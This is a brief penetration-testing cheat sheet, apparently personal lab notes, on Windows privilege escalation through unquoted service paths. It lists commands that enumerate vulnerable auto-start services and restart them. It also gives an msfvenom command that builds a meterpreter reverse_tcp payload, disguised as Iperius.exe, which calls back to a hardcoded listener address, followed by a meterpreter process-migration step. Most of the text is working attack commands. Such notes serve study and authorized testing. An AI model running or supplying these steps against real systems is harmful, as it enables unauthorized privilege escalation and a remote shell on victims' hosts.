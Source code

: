 # Unquoted Service Paths

Check for vulnerable services

```
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

Or use Powershell

```
powershell -c "Get-Service"
```

If using PowerUp.ps1, make sure `CanRestart` field is `True` for the vulnerable service.

If the service can be restarted, check if we can write to the service path.

Create a payload and restart the service / reboot the host. To restart the service, use either of the following command line tools.

```
net stop/start <ServiceName>
sc stop/start <ServiceName>
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.189 LPORT=80 EXITFUNC=thread -f exe -o Iperius.exe
```

Start multi handler and migrate to new process (meterpreter)

```
run post/windows/manage/migrate
```

Here's a good example to follow: [https://www.exploit-db.com/exploits/48543](https://www.exploit-db.com/exploits/48543)
